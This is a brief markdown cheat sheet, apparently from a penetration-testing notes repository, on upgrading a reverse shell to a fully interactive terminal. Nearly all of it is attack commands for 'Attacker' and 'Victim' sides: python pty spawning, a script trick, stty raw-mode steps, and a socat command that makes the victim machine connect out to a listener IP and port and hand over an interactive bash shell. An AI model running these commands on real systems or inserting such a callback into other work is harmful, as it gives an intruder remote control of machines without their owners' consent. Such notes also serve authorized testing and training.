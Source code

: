 # Upgrading to Interactive Shells

## Simple upgrades  
Python  
`python -c 'import pty;pty.spawn("/bin/bash")'`  

Script  
```
exec script /dev/null      
Script started, file is /dev/null    
bash
```

Socat  
Listener:  
`socat file:`tty`,raw,echo=0 tcp-listen:<PORT>`  

Victim:  
`socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<LISTENER_IP>:<PORT>`  

## Upgrading to full interactive shell  
In reverse shell  
```
python -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z   
```

Attacker  
`stty raw -echo`
`fg`  

Victim  
```reset 
export SHELL=bash  
export TERM=xterm-256color  
stty rows <num> columns <cols>  
``` 
